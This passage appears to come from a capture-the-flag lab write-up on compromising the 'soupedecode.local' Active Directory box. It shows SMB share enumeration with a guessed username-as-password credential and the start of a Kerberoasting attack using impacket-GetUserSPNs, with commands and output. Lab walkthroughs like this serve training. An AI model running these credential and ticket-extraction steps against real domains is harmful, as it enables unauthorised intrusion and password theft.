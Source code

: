 1 account has been verified that uses the username as thier password. 

Now i can check what shares thios user has access to. 


```┌──(kali㉿kali)-[~]
└─$ nxc smb soupedecode.local -u ybob317 -p ybob317 --shares
SMB         10.10.67.6      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.67.6      445    DC01             [+] SOUPEDECODE.LOCAL\ybob317:ybob317 
SMB         10.10.67.6      445    DC01             [*] Enumerated shares
SMB         10.10.67.6      445    DC01             Share           Permissions     Remark
SMB         10.10.67.6      445    DC01             -----           -----------     ------
SMB         10.10.67.6      445    DC01             ADMIN$                          Remote Admin
SMB         10.10.67.6      445    DC01             backup                          
SMB         10.10.67.6      445    DC01             C$                              Default share
SMB         10.10.67.6      445    DC01             IPC$            READ            Remote IPC
SMB         10.10.67.6      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.67.6      445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.67.6      445    DC01             Users           READ
```

The user has read access to the user shares.

So i can now use like smb client with the credentials to authenticate with smb read the content of the shares. 

<img width="940" height="475" alt="image" src="https://github.com/user-attachments/assets/a31dc78c-e8b2-4497-b1b0-72949515f3b0" />

<img width="795" height="216" alt="image" src="https://github.com/user-attachments/assets/9448b458-c475-4060-82a4-0c244dda45f1" />

There is the User.txt flag.

## 4. Privilege Escalation (Kerberoasting) 

With these valid credentials i can now perform kerberosting to extract service account credentials from the active directory.

The basic process of kerberoating, as an authenticated user i can request a kerberos ticket for a service principle name (SPN).

SPN is a unique ID of a given service account. It tells the kerberos that this service account is running X service in the AD. so if the account has an SPN 
Set as low authenticated user that has low privileges or anything, we can request a TGS ticket for that SPN from the server. The TGS ticket is encrypted so once receievd the ticket, 
I can user offline tools such as Hashcat or JTR to crack the hash. 

I will use Impackets to perform kerberoating. 

```
──(kali㉿kali)-[~]
└─$ impacket-GetUserSPNs 'soupedecode.local/ybob317:ybob317' -request -usersfile users1.txt -dc-ip soupedecode.local
```
